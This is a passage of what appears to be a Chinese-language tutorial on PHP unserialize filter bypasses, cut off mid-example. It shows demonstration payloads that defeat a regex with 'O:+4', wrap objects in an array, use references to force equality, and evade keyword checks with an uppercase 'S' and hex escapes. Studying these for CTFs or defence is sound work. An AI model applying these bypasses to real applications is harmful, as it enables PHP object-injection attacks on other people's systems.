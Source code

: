 ```php
function match($data){
    if (preg_match('/^O:\d+/',$data)){
        die('you lose!');
    }else{
        return $data;
    }
}
$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}';
// +号绕过
$b = str_replace('O:4','O:+4', $a);
unserialize(match($b));
// serialize(array($a));
unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');
```

## 利用引用
```php
<?php
class test{
    public $a;
    public $b;
    public function __construct(){
        $this->a = 'abc';
        $this->b= &$this->a;
    }
    public function  __destruct(){

        if($this->a===$this->b){
            echo 666;
        }
    }
}
$a = serialize(new test());
```
将`$b`设置为`$a`的引用，可以使`$a`永远与`$b`相等

## unicode 绕过
```
O:4:"test":2:{s:4:"%00*%00a";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
```
可以写成
```
O:4:"test":2:{S:4:"\00*\00\61";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
```
表示字符类型的s大写时，会被当成16进制解析。

示例如下：
```php
<?php
class test{
    public $username;
    public function __construct(){
        $this->username = 'admin';
    }
    public function  __destruct(){
        echo 666;
    }
}
function check($data){
    if(stristr($data, 'username')!==False){
        echo("你绕不过！！".PHP_EOL);
    }
    else{
```